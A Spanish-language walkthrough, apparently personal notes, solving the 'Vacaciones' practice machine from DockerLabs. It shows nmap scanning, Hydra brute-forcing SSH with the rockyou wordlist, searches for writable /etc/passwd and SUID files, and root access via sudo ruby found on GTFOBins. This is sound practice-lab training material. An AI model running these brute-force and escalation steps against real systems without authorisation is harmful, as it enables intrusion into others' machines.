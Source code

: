 
plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/YCEGAISD#y6iWUG_auH4vUApClb9ix7H6JmOCKm4vAYS2TjQn59g
Nombre: Vacaciones
Dificultad: muy fácil
Herramientas:

- [[Ping]]
- [[NMAP]]
- [[Hydra, Ataques de Fuerza Bruta y John the Ripper]]
- [[Find]]



1 comprobamos si tenemos docker instalado de no ser así lo instalamos

```sh fold:"Comprobar si docker está instalado"
docker -v
```

```sh fold:"Instalacion de docker"
sudo apt install docker.io
```

Ahora levantamos la maquina:

```sh fold:"Levantamos la maquina en docker"
sudo bash auto_deploy.sh vacaciones.tar 
```


Desplegamos la máquina:

![[Dockerlabs - Vacaciones - Despliegue me maquina.png]]

Hacemos un ping para comprobar conectividad y sistema operativo:

ping 172.17.0.2       
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.154 ms


ttl=64 --> maquina Linux

ahora vamos a lanzar nmap
```sh fold:"Nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```



![[Dockerlabs - Vacacioens - Nmap result.png]]

puertos
puerto 22 ssh
puerto 80  http

vamos a lanzar el scrip de nmap para cada puerto:

puerto 80:
```sh fold:"Scrip vulnerabilidades de Nmap puerto 80"
sudo nmap --script "vuln" -p80 172.17.0.2 
```

Descubierto:   After NULL UDP avahi packet DoS (CVE-2011-1002).
![[Dockerlabs - Vacacioens -  Script vbuln p 80.png]]

Ahora lanzamos el del puerto 22:

```sh fold:"Scrip vulnerabilidades de Nmap puerto 22"
sudo nmap --script "vuln" -p22 172.17.0.2 
```


Descubrimos la misma vulnerabilidad
![[Dockerlabs - Vacacioens -  Script Vulnerabilidad P22.png]]
no parece que podamos explotar nada


![[Dockerlabs - Vacacioens -  Vacaciones web.png]]

Al parecer no hay nada en la web:
Vamos a ver el código fuente:

![[Dockerlabs - Vacaciones - Codigo Fuente.png]]
y nos encontramos un mensaje:

<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
encontramos 2 usuarios:
- Juan
- Camilo


Alguno de estos usuarios podría estar en el sistema con acceso por SSH (puerto 22)

Como no conocemos la contraseña, solo podemos hacer fuerza bruta con Hydra





```sh fold:"Fuerza bruta con Hydra usuario camilo"
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Dockerlabs - Vacaciones - Hydra p 22 usuario camilo.png]]

User: camilo  
password: password1


intentamos hacer login por ssh

```sh fold:"ssh acces con camilo como usuario"
ssh camilo@T172.17.0.2
```

acceso con camilo:
![[Dockerlabs - Vacaciones - acceso por ssh usuario camilo.png]]

## escalada de privilegios:
sudo -l
[sudo] password for camilo: 
Sorry, user camilo may not run sudo on 2f317d25df18.


```sh fold:"Revisar si tenemos permiso de escritura en /etc/passwd"
find / -writable -type f 2>/dev/null |grep '/etc/passwd' && ls -lah /etc/passwd
```
No result

```sh fold:"Revisar binarios que se puedan explotar"
find  / -perm -4000 2>/dev/null  
```

No result

Seguimos buscando
find / type f -name "*.txt" todos los ficheros txt:


![[Dockerlabs - Vacaciones - Fichero de correo encontrado.png]]

nos llama la atención este fichero  correo.txt que si tenemos acceso, vamos a abrirlo

![[Dockerlabs - Vacacioens -  Contenido fichero correo.png]]

Contenido:
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb

Obtenemos una contraseña vamos a probarla con el usuario root:
![[Dockerlabs - Vacaciones - Intento acceso rrot.png]]

Pero no accedemos
también tenemos el usuario Juan vamos a probar con este usuario:

Ahora si tenemos acceso con el usuario Junan:
![[Dockerlabs - Vacaciones - Acceso usuario Juan.png]]



$ sudo -l
Matching Defaults entries for juan on 2f317d25df18:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 2f317d25df18:
    (ALL) NOPASSWD: /usr/bin/ruby

Buscamos esto en gyfobins:

![[Dockerlabs - Vacacioens -  Gtfobbins ruby sudo access.png]]

ejecutamos este comando
y conseguimos acceso root
![[Dockerlabs - Vacaciones - Root access.png]]


ahora vamos a  eliminar la maquina pulsando Ctrl+C
![[Dockerlabs - Vacacioens -  Eliminar la maquina.png]]

Maquina resuelta completamente


